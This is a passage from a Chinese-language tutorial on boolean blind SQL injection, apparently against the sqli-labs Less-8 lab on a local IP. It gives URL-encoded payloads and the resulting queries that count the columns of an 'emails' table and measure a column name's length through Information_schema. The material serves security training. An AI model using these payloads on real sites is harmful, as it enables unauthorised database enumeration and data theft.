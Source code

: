 同获取数据库中表的数量方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(column_name)%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database())=2%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(column_name) from Information_schema.columns where table_name = 'emails' and table_schema=database())=2#' LIMIT 0,1
;
```

![](盲注/photo/19.jpg)

#### 获取列名长度

同获取数据库中表名长度方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1))=2%23
SQL:
SELECT * FROM users WHERE id='1' and length((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1))=2#' LIMIT 0,1
;
```
